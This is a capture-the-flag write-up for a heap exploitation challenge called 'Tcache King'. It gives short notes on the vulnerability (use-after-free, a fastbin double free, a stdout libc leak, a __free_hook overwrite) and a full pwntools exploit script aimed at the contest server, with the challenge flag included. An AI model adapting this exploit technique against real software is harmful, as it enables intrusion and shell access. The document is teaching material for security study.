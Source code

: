 # Tcache-king

```python
			Challenge - 2 Solves
			 Tcache King - 1000
hahah Tcache go brrr

nc 128.199.157.172 20978

Alternate download link:
https://drive.google.com/file/d/1j7pscqy2wrIKFV0w5CXtn9BDIkjHJhQy/view?usp=sharing
```

- Nice and uniqe challenge :)
- There is obviuos UAF. We can do double free.
- But glibc 2.31 has check for tcache double free.
- We can use fastbin here. Allocating freeing 7 chunk of same size. After that if the size range in fastbin it will go to fastbin.
- We can point fastbin anywhere we want because it will all stash all the list after the current bin into tcache. And no size check perfomed.
- There are some restrictions in the binary.
- In add-note function
- We can only use alphanumeric characters in our note.
- This makes the challenge tricky.
- There is one more function called changename. which allocates 0x40 sized chunk.
- It allows all characters to be used in the chunk.
- There is now view() function. So my script guess four bits.
- Leak using stdout structure trick.
- There is nothing more new. Just requires Some heavy heap manipulation.
- I didn't knew that NULL bytes were allowed in add-note.
- I did this challenge without using null bytes in add-note :P
- free_hook is the best targate with tcache :)
```c
#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
```
#### First-blood

#### Exploit
```python
#!/usr/bin/python3
from pwn import *

####Utils
def addnote(idx,size,contents):
	io.sendlineafter("Choice: ","1")
	io.sendlineafter("index: ",str(idx))
	io.sendlineafter("size: ",str(size))
	io.sendafter("contents: ",contents)

def deletenote(idx):
	io.sendlineafter("Choice: ","2")
	io.sendlineafter("index: ",str(idx))

def changename(username):
	io.sendlineafter("Choice: ","4")
	io.sendafter("username: ",username)

#### Addnote constraints
"""
|  0-9   |   A-Z   |   a-z   |
0x30-0x39|0x41-0x5A|0x61-0x7A|
"""
####Addr
_IO_2_1_stdin = 0x1eb980
_IO_2_1_stdout = 0x1ec6a0
system = 0x55410
__free_hook = 0x1eeb28

####Exploit
while True:
#	io = process(["./tcache_king_ld"],env={"LD_PRELOAD":"./libc6_2.31-0ubuntu9_amd64.so"})
	io = remote("128.199.157.172", 20978)
	io.sendafter("username: ","HKHK")
	changename("HK")
	for i in range(34,42):
		addnote(i,0xf8,"HK") #34~41
	for i in range(42,50):
		addnote(i,0x28,"HK") #42~49
	addnote(50,0x28,"HK") #50
	addnote(51,0x28,"HK") #51
	addnote(52,0x18,"HK") #52
	addnote(0,0x28,"HK") #0
	addnote(1,0x18,"HK") #1
	addnote(2,0x28,"HK") #2
	addnote(3,0x28,"HK") #3
	for i in range(42,49):
		deletenote(i)
	deletenote(2)
	deletenote(3)
	deletenote(2)
	for i in range(23,30):
		addnote(i,0x28,"HK") #23~29
	addnote(2,0x28,"\x30") #2
	for i in range(19,21):
		addnote(i,0x28,"HK") #19~20
	addnote(4,0x28,b"HK"*4+p8(0x51)) #4
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101))
	for i in range(34,41):
		deletenote(i)
	for i in range(5,14):
		addnote(i,0x48,"HK"+str(i)) #5~13
	deletenote(6)
	changename(p64(0x0)*5+p64(0x21))
	deletenote(1)
	deletenote(0)
	changename(p64(0x0)*5+p64(0x101)+p16(0x3690))
	for i in range(13,6,-1):
		deletenote(i)
	deletenote(6)
	deletenote(5)
	deletenote(0)
	deletenote(6)
	for i in range(54,61):
		addnote(i,0x48,"HK") #54~60
	addnote(14,0x48,p8(0x70)) #14
	for i in range(30,33):
		addnote(i,0x48,"HK"+str(i)) #30~32
	print("Libc")
	try:
		changename(p64(0x0)*2+p64(0xfbad1800)+p64(0x0)*3+b"\x00")
		libc_leak = u64(io.recvn(0x10)[0x8:])
		libc_base = libc_leak-0x1eb980
		if libc_base&0xfff==0:
			print("Found")
			break
		else:
			io.close()
			continue
	except:
		io.close()
		continue
print(f"Libc base: {hex(libc_base)}")
deletenote(0)
changename(p64(0x0)*5+p64(0x101)+p64(libc_base+__free_hook))
for i in range(54,61):
	deletenote(i)
deletenote(6)
deletenote(5)
deletenote(0)
deletenote(6)
for i in range(54,61):
	addnote(i,0x48,"HK") #54~60
addnote(15,0x48,p8(0x70)) #15
for i in range(30,32):
	addnote(i,0x48,"HK") #30~31
addnote(32,0x48,"sh\x00") #32
changename(p64(libc_base+system))
deletenote(32)
#COMPFEST12{Tcache_King_here_is_your_crown_WwW_5ef79c}
io.interactive()
```
